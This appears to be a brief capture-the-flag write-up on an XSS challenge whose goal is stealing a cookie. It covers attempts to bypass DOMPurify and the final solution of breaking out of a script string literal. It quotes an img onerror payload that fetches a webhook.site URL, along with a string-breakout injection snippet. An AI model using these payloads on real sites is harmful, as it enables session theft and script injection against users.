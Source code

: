 * First look, get an XSS and share to steal cookie
* Obviously payload does not work right away
* Source shows hint of a bug at /source
* Source has a `escape_string` function that could be a potential bug
* JSON.stringify --> Did not function proper with all json objs. Possibly serialization, deserialize/obj expansion bugs possible
* Slice was weird. They apparently were getting rid of something. The quotes probably
* DOMPurify exists while rendering in client side. ( investigated a bit and hard to bypass it.)
* One possible way was to perform object expansion like `<img src=x onerror=fetch(https://webhook.site/0cf9c2e5-eb67-4828-b8ed-ff13b2e8a651)>, {ALLOWED_TAGS: ['img'], ALLOWED_ATTR: ['onerror', 'src']}`

1. My first approach was to defeat the <> sanitization. Which never really mattered as the dompurify would reestablish <> if they are within allow list
2. Bypassing DOMpurify
   1. mXSS had exploits but the version of dompurify they used seems fixed version
   2. object expansion to alter allow list did not work too... Everytime it ended up in a string, tried different combination
3. Last approach, took up to the end of ctf and help from writeups. DOMPurify cannot be bypassed instead we had to do this. Within the script tags we needed to end the string `note` and have a malicious xss within to  get executed. Eg,
```
const note = ""; alert(1);//   ---> gets executed before it enters sanitize by commas and commenting everything else
DOMPurify.sanitize(note)
```
So using such a payload should allow malicious script execution